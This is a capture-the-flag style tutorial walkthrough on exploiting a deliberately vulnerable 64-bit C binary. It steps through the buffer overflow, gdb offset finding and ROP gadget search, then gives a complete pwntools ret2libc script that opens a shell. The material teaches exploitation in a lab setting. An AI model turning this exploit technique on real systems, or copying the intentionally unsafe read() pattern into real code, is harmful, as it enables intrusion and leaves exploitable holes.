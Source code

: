 Before we look at the binary's code, we should see if the binary has any binary hardening mitigations. These can make it significantly harder to pwn the binary. We can do this using checksec from pwntools.

```
guyinatuxedo@tux:/Hackery/escape/buf_ovf/b6_64$ pwn checksec b6_64
[*] '/Hackery/escape/buf_ovf/b6_64/b6_64'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE
```

As you can see there, it is al 64-bit binary with NX enabled. NX stands for non-executable stack which means that anywhere that a user can write to cannot be executed as code. This means that we can no longer push shellcode onto the stack, and then execute it. So let's look at the code...

```
guyinatuxedo@tux:/Hackery/escape/buf_ovf/b6_64$ cat b6_64.c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>

void nothing()
{
  char* buf0[50];
  read(STDIN_FILENO, buf0, 450);
}

int main()
{
  printf("If you do not get back to your research now, we will have to implement corrective solutions.\n");
  nothing();
}
```

So looking at the code, we see a couple of things. The first is that this time our buffer overflow is limited to just 450 characters because of the use of read(). Since this binary is using read, that means when we push "\x00" to the stack (because 64 bit C addresses hhave lots of those) it will continue reading it since it is a null byte. If it was fgets, it would just stop reading input. What we can do is we can get the address of the system function from the libc (since it includes the stdlib.c), along with the address of the string "/bin/sh" (which is usually somewhere in libc) and effectivley get a shell. The first thing we will need to do is find the offset to the rip function.

gdb-peda$ disas nothing
Dump of assembler code for function nothing:
   0x0000000000400536 <+0>: push   rbp
   0x0000000000400537 <+1>: mov    rbp,rsp
   0x000000000040053a <+4>: sub    rsp,0x190
   0x0000000000400541 <+11>:  lea    rax,[rbp-0x190]
   0x0000000000400548 <+18>:  mov    edx,0x1c2
   0x000000000040054d <+23>:  mov    rsi,rax
   0x0000000000400550 <+26>:  mov    edi,0x0
   0x0000000000400555 <+31>:  call   0x400410 <read@plt>
   0x000000000040055a <+36>:  nop
   0x000000000040055b <+37>:  leave  
   0x000000000040055c <+38>:  ret    
End of assembler dump.
gdb-peda$ b *nothing+36
Breakpoint 1 at 0x40055a
gdb-peda$ r
Starting program: /Hackery/escape/buf_ovf/b6_64/b6_64 
If you do not get back to your research now, we will have to implement corrective solutions.
75395128
```

One wall of text later...

```
Breakpoint 1, 0x000000000040055a in nothing ()
gdb-peda$ x/s $rbp-0x190
0x7fffffffdcc0: "75395128\n"
gdb-peda$ info frame
Stack level 0, frame at 0x7fffffffde60:
 rip = 0x40055a in nothing; saved rip = 0x400575
 called by frame at 0x7fffffffde70
 Arglist at 0x7fffffffde50, args: 
 Locals at 0x7fffffffde50, Previous frame's sp is 0x7fffffffde60
 Saved registers:
  rbp at 0x7fffffffde50, rip at 0x7fffffffde58
gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0x7ffff7b9a177 --> 0x68732f6e69622f ('/bin/sh')
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0x7ffff7a53390 <__libc_system>
```

And onto the quest for the holy grail

```
0x7fffffffde58 - 0x7fffffffdcc0 = 408
```

So we the offset between the start of our input and the rip register is 408. We also have the system() address from libc, which is 0x7ffff7a53390. We also have the address of the string "/bin/sh" from libc which is 0x7ffff7b9a177. There is still one more piece we need for the exploit. With this binary, the argument is passed to the function via the registers instead of just being on the stack. This means that we will have to use Return Oriented Programming (ROP) to find a piece of assembly code (referred to as a gadget) that will pop an argument off of the stack and into a register for the system call to read. All the ROP gadget is, is it is a piece of assembly code already somewhere in the function that we will call. The specifi register we should be looking for are rdi, or it's 32 bit counterpart edi. Reason for this being is that should be the first place a function argument is stored. To find it, i will be using a tool called ROPGadget. If you are running the vm I made, it should already be installed. If not, here is the link to the github page.

https://github.com/JonathanSalwan/ROPgadget

```
guyinatuxedo@tux:/Hackery/escape/buf_ovf/b6_64$ ROPgadget --binary b6_64 | grep di
0x000000000040048d : je 0x4004a8 ; pop rbp ; mov edi, 0x6009f0 ; jmp rax
0x00000000004004db : je 0x4004f0 ; pop rbp ; mov edi, 0x6009f0 ; jmp rax
0x0000000000400723 : jmp qword ptr [rdi]
0x0000000000400490 : mov edi, 0x6009f0 ; jmp rax
0x000000000040048f : pop rbp ; mov edi, 0x6009f0 ; jmp rax
0x00000000004005e3 : pop rdi ; ret
```

So we can see at the very last line, we have code that will pop a value off the stack and into the rdi register, then return. This will pop "/bin/sh" off the stack and into the register, then just continue running code. So our exploit will look like this.

```
payload = offset + gadget + bin_sh + system
```

So as you can see, when the nothing() function returns, it will execut our rop gadget will we pop the next thing off the stack (/bin/sh) into the rdi register, then it will run system. Now here is the python script that will do all of it.

```
guyinatuxedo@tux:/Hackery/escape/buf_ovf/b6_64$ cat exploit.py 
#Import Pwn Tools
from pwn import *

#Establish the target
target = process("./b6_64")

#Recieve the first line, so we can reach the read call
print target.recvline()

#Establish the offset to reach the rip register
offset = "0"*408

#Rop Gadget to pop bin_sh into rdi
gadget = p64(0x00000000004005e3)

#Address of "/bin/sh" from libc
bin_sh = p64(0x7ffff7b9a177)

#Address of system function from libc
system = p64(0x7ffff7a53390)

#Constructing the paylaod
payload = offset + gadget + bin_sh + system

#Sending the payload
target.sendline(payload)

#Dropping to an interactive prompt
target.interactive()
```

Now let's test the exploit...

```
guyinatuxedo@tux:/Hackery/escape/buf_ovf/b6_64$ python exploit.py 
[+] Starting local process './b6_64': Done
If you do not get back to your research now, we will have to implement corrective solutions.

[*] Switching to interactive mode
$ ls
b6_64  b6_64.c    core  exploit.py  out  peda-session-b6_64.txt  test.c
$ echo It Works!
It Works!
$ cat out
Someone has been researching security overriding methods. Level Cleared!
$ exit
[*] Got EOF while reading in interactive
$ exit
[*] Process './b6_64' stopped with exit code -11
[*] Got EOF while sending in interactive
```

And just like that, we pwned the binary.
